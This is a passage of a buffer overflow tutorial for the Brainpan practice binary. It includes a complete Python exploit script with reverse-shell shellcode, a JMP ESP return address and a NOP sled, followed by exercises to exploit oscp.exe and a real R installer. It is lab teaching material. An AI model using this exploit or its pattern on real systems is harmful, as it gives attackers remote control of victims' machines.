

# Generating shellcode and gaining access

It is time to generate the shell code. We will use the `msfvenom` to create a reverse shell payload. The syntax is followed:



Next, we need to transmit our shellcode following this sequence:

```python
buffer = b"A" * 510 + b"\xf3\x12\x17\x31" +  b"\x90" * 32 + shell_code
```

Here's what happens, we overflow the buffer with 510 `A` characters, which allows us to reach the `EIP` (Extended Instruction Pointer) and overwrite it with a memory address pointing to `ESP` (Extended Stack Pointer) in our case it is `311712F3` (`\xf3\x12\x17\x31`). Then, we insert 32 `NOP` instructions (`NOP` meaning No Operation) to maintain consistent payload sizes, followed by our actual shellcode.

I write a python script called [brainpan_exploit.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_exploit.py).

```python
#!/usr/bin/python3
import sys
import socket

shell_code = (
b"\xdd\xc7\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x52\xbb\xa2\xb1\x61"
b"\x05\x83\xe8\xfc\x31\x58\x13\x03\xfa\xa2\x83\xf0\x06\x2c\xc1"
b"\xfb\xf6\xad\xa6\x72\x13\x9c\xe6\xe1\x50\x8f\xd6\x62\x34\x3c"
b"\x9c\x27\xac\xb7\xd0\xef\xc3\x70\x5e\xd6\xea\x81\xf3\x2a\x6d"
b"\x02\x0e\x7f\x4d\x3b\xc1\x72\x8c\x7c\x3c\x7e\xdc\xd5\x4a\x2d"
b"\xf0\x52\x06\xee\x7b\x28\x86\x76\x98\xf9\xa9\x57\x0f\x71\xf0"
b"\x77\xae\x56\x88\x31\xa8\xbb\xb5\x88\x43\x0f\x41\x0b\x85\x41"
b"\xaa\xa0\xe8\x6d\x59\xb8\x2d\x49\x82\xcf\x47\xa9\x3f\xc8\x9c"
b"\xd3\x9b\x5d\x06\x73\x6f\xc5\xe2\x85\xbc\x90\x61\x89\x09\xd6"
b"\x2d\x8e\x8c\x3b\x46\xaa\x05\xba\x88\x3a\x5d\x99\x0c\x66\x05"
b"\x80\x15\xc2\xe8\xbd\x45\xad\x55\x18\x0e\x40\x81\x11\x4d\x0d"
b"\x66\x18\x6d\xcd\xe0\x2b\x1e\xff\xaf\x87\x88\xb3\x38\x0e\x4f"
b"\xb3\x12\xf6\xdf\x4a\x9d\x07\xf6\x88\xc9\x57\x60\x38\x72\x3c"
b"\x70\xc5\xa7\x93\x20\x69\x18\x54\x90\xc9\xc8\x3c\xfa\xc5\x37"
b"\x5c\x05\x0c\x50\xf7\xfc\xc7\x9f\xa0\xf4\x12\x48\xb3\x08\x0c"
b"\xef\x3a\xee\x44\xff\x6a\xb9\xf0\x66\x37\x31\x60\x66\xed\x3c"
b"\xa2\xec\x02\xc1\x6d\x05\x6e\xd1\x1a\xe5\x25\x8b\x8d\xfa\x93"
b"\xa3\x52\x68\x78\x33\x1c\x91\xd7\x64\x49\x67\x2e\xe0\x67\xde"
b"\x98\x16\x7a\x86\xe3\x92\xa1\x7b\xed\x1b\x27\xc7\xc9\x0b\xf1"
b"\xc8\x55\x7f\xad\x9e\x03\x29\x0b\x49\xe2\x83\xc5\x26\xac\x43"
b"\x93\x04\x6f\x15\x9c\x40\x19\xf9\x2d\x3d\x5c\x06\x81\xa9\x68"
b"\x7f\xff\x49\x96\xaa\xbb\x6a\x75\x7e\xb6\x02\x20\xeb\x7b\x4f"
b"\xd3\xc6\xb8\x76\x50\xe2\x40\x8d\x48\x87\x45\xc9\xce\x74\x34"
b"\x42\xbb\x7a\xeb\x63\xee")

# \x90 are nop (no operation) there are like padding
buffer = b"A" * 510 + b"\xf3\x12\x17\x31" +  b"\x90" * 32 + shell_code

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('192.168.10.4', 9999))
    payload = b'shitstorm /.:/' + buffer
    sock.send((payload))
    sock.close()
except:
    print("Error connecting to the server")
    sys.exit()
```

Finally, we can start to listen to `4455` port on Linux side to capture our reverse shell. Now we can sent our buffer to the ``brainpan.exe`` TCP server.


As you can see in the screenshot above, once the python script is executed, you will receive the reverse shell connection. Now we have full control over the target machine. 😄😄😄

## **Putting Your Knowledge to the Test**

After gaining a solid understanding of developing exploits for buffer overflow vulnerabilities, it's time to apply your knowledge by examining and testing two distinct executables: [oscp.exe](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/oscp.exe) and [R-3.4.4-win.exe](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/R-3.4.4-win.exe). These practical exercises will provide you with hands-on experience in identifying and exploiting buffer overflow vulnerabilities.

### **Executable 1: oscp.exe**

- This executable has been intentionally designed with a specific buffer overflow vulnerability.
- Your task is to identify the vulnerability, develop an exploit, and execute it.
- Thoroughly document your findings, including the steps you took and the impact of the exploit.

### **Executable 2: R-3.4.4-win.exe**

- `R-3.4.4-win.exe` is a legitimate software program, and it contains a buffer overflow vulnerability that you will explore.
- Similar to `oscp.exe`, this second executable also contains a buffer overflow vulnerability, but it may present different challenges and characteristics.
- Your objective is to discover the vulnerability, create an exploit, and execute it.
- As with the first exercise, ensure that you document your process thoroughly.

**Before You Begin:**

1. **Legal and Ethical Considerations:** Always ensure that you have proper authorization and are working in a controlled environment when testing these executables. Unauthorized exploitation of vulnerabilities is both unethical and illegal.

2. **Safety Measures:** Conduct your testing in isolated environments to prevent any unintended consequences.

3. **Documentation:** Keep detailed records of your findings, including the vulnerability, your exploit code, and any recommended mitigations or fixes.

4. **Learning Experience:** Use these exercises as opportunities to apply the knowledge and techniques you've learned. Approach them with a learning mindset and take note of any challenges you encounter.

5. **Seek Guidance:** If you face difficulties or have questions during the exercises, feel free to reach out for guidance or clarification.

HAPPY HACKING :fire: :fire: :fire:
